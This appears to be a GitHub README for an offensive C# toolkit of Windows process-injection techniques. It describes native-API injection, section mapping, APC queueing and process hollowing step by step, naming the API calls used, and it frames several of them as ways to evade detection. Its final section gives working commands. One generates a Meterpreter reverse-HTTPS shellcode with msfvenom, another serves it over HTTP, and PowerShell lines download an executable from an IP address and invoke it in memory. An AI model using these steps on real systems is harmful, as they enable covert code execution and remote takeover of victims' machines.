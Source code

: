 ## **NativeProcInjection.cs**

This technique demonstrates classic process injection using Native Windows API functions. It creates a remote process (usually `notepad.exe`), allocates memory in it, writes shellcode, and creates a remote thread to execute the payload.

**High-Level Steps:**

1. Obtain a handle to the target process using `NtOpenProcess`.
2. Allocate memory in the remote process with `NtAllocateVirtualMemory`.
3. Write shellcode into the allocated memory using `NtWriteVirtualMemory`.
4. Create a remote thread in the target process using `NtCreateThreadEx` to execute the shellcode.

## **NtMapInjection.cs**

This method utilizes NT native APIs to create a shared memory section and map it into both the local and remote process. It’s stealthier than the classic method and avoids using easily-monitored APIs like `WriteProcessMemory`.

**High-Level Steps:**
1. Create a memory section using `NtCreateSection`.
2. Map the section into the local process using `NtMapViewOfSection`.
3. Copy the shellcode into the local view.
4. Map the same section into the remote process using `NtMapViewOfSection`.
5. Create a remote thread in the target process with `CreateRemoteThread` or equivalent to execute the code.

## **NtQueueApc.cs**

This method uses Asynchronous Procedure Calls (APCs) to queue execution of shellcode in the context of a thread in a remote process. It is often used in combination with other techniques to delay execution or avoid detection.

**High-Level Steps:**

1. Create a new process in a suspended state using `CreateProcess` with the CREATE_SUSPENDED flag.
2. Allocate memory in the target process with `NtAllocateVirtualMemory`.
3. Write the shellcode into the allocated memory using `NtWriteVirtualMemory`.
4. Queue the shellcode for execution in the suspended thread using `NtQueueApcThread`.
5. Resume the main thread using `NtResumeThread` to trigger the APC and execute the payload.

## **procHollow.cs**

An advanced injection technique where a legitimate process is started in a suspended state, its memory is unmapped, and malicious code is written into it—effectively "hollowing out" the original process. The thread is then resumed, executing the injected payload under the guise of a legitimate executable.

**High-Level Steps:**

1. Create a target process (e.g., svchost.exe) in a suspended state using CreateProcess with CREATE_SUSPENDED.
2. Retrieve the base address of the main module using NtQueryInformationProcess and ReadProcessMemory.
3. Unmap the memory of the original executable using NtUnmapViewOfSection.
4. Allocate memory in the remote process using VirtualAllocEx.
5. Write the malicious executable (often a PE file) into the allocated memory using WriteProcessMemory.
6. Update the remote process’s context (entry point) with SetThreadContext.
7. Resume the main thread with ResumeThread to execute the injected payload.

## **TryHarder.cs**

Another Process Injection technique that loads the shellcode remotely.<br>
The idea of this technique is by `Sektor 7` and ported to C# by [saulgoodman](https://github.com/saulg00dmin).

Create Shellcode using msfvenom:<br>
- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw EXITFUNC=thread -o shellcode.bin`

Serve the `shellcode.bin` with python server: `python3 -m http.server 80`

Convert the EXE into a byte array:<br>
- `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.190/Tryharder.exe')`

Load the EXE into memory:<br>
- `$assem = [System.Reflection.Assembly]::Load($data)`

Invoke its entry point:
- `$assem.EntryPoint.Invoke($null, @([string[]]@()))`
